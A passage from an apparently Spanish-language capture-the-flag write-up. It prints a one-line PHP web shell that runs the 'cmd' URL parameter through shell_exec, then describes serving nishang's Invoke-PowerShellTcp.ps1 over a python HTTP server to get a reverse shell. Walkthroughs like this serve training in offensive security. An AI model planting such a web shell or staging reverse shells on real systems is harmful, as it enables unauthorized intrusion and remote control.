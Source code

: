 No existen `disable_functions`
![Write-up Image](images/Screenshot_23.png)

Creamos una web_shell...
```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

Y conseguimos ejecución remota de comandos.
![Write-up Image](images/Screenshot_24.png)

Ahora para mandarnos la consola utilizamos el script `Invoke-PowerShellTcp.ps1` de `nishang`
Y a lo último del script añadimos esta línea.
![Write-up Image](images/Screenshot_25.png)

Servimos este archivo con python por el puerto 8081.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
